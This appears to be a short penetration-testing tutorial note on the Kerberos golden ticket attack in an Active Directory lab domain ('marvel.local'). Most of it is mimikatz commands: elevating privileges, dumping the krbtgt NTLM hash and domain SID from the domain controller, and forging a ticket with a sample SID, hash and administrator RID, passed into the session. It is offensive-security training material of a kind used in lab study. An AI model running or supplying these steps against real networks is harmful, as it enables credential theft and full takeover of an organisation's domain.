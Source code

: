 
## **Overview**

- [ ] **What is it ?**
	- When we compromise the krbtgt account, we own the domain
	- We can request access to any resource or system on the domain
	- Golden tickets == Complete access to every machine

- [ ] We can utilize `mimikatz` to obtain the information necessary to perform this attack
- [ ] There are a couple of conditions need to be met 
	- We need the krbtgt NTLM hash
	- We also need the domain SID 
- [ ] Once we have this we can generate our golden ticket and once it is generated we can use an attack call **Pass-the-Ticket** in other to utilize this anywhere

## **Attack Scenario**

First of all make sure you transfer `mimikatz` to your domain controller then we can start it through the **Command Prompt**

```powershell
# start mimikatz
C:\Users\Administrator\Downloads>mimikatz.exe

# Elevate to highest integrity level
mimikatz # privilege::debug
mimikatz # token::elevate
```


### **Dumping the SID and NTLM hash**

```powershell
# Dump the sid and NTLM hash of the krbtgt user
mimikatz # lsadump::lsa /inject /name:krbtgt
```


#### **Example**

![](https://i.imgur.com/4XcWt6w.png)

**Note :** Copy both the SID and NTLM hash to your note pad on your DC



### **Generating Tickets**

```powershell
# /User : fake user account
# /domain : domain controller
# /sid : the sid we saved to note pad
# /krbtgt : the NTLM hash 
# /id : administrator RID for advanced privileges
# /ptt : pass-the-ticket option

mimikatz # kerberos::golden /User:secfortress /domain:marvel.local /sid:S-1-5-21-4089637540-2738901061-2314813381 /krbtgt:f362ad348de4e7392c0309959ec0775d /id:500 /ptt
```

#### **Example**


![](https://i.imgur.com/qgE2uyK.png)


